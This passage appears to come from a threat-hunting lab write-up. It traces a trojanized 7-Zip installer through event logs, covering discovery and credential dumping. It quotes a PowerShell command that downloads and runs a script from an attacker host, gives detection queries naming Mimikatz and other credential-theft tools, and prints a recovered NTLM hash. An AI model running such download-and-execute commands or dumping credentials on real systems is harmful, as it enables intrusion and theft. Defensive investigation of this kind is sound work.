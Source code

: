 <img width="1572" height="326" alt="image" src="https://github.com/user-attachments/assets/c7f6e15f-ba62-432a-889c-e78c2cddc96f" />

On `Sep 26, 2023 @ 14:23:02.935`. The MSI package invoked a PowerShell command to download and execute a remote script

```powershell
powershell.exe iex(iwr http://www.7zipp.org/a/7z.ps1 -useb)
```

Following the execution of the downloaded script

<img width="1814" height="588" alt="image" src="https://github.com/user-attachments/assets/0c26de3b-257a-4e07-8c90-fca697d8774e" />

The script:

1. Download the legitimate version of the 7-Zip software
2. Created a malicious service named **`7zService`** configured to run the attacker's payload (**`C:\Program Files\7-zip\7zipp.exe`**) with **`LocalSystem`** privileges.

**Service Execution:** **`Sep 26, 2023 @ 14:23:48.075` .**  The attacker gained the first C2 connection from Perry's machine. 

## Discovery & Credentials Access

In the discovery phase, we will hunt for the usage of built-in tools that the attacker uses for the enumeration process. 

```
winlog.event_id: 1 AND process.name: (whoami.exe OR hostname.exe OR net.exe OR systeminfo.exe OR ipconfig.exe OR netstat.exe OR tasklist.exe)

```

<img width="1885" height="740" alt="image" src="https://github.com/user-attachments/assets/dd0f49a4-6a68-496a-8253-9fc6ed58821a" />

on `Sep 26, 2023 @ 14:24:58.141` The first tool used was `systeminfo.exe` . 

**Hunting LSASS Process Dumping:** Search for indicators that are associated with LSASS credential dumping.

```
winlog.event_id: 1 AND process.command_line: (*mimikatz* OR *DumpCreds* OR *privilege\:\:debug* OR *sekurlsa\:\:*)

```

<img width="1855" height="754" alt="image" src="https://github.com/user-attachments/assets/cc0b4f57-9a56-4fa3-84ea-945ecc3cf01d" />

on `Sep 26, 2023 @ 14:28:53.575.` The attacker downloaded and executed Mimikatz to extract saved credentials. Successfully extracted the NTLM hash for user **`james.cromwell: B852A0B8BD4E00564128E0A5EA2BC4CF`**.

There was also the usage of the PowerShell tool `Invoke-PowerExtract`.

```
process.command_line.keyword :  *Invoke-PowerExtract* and event.code: 1
```
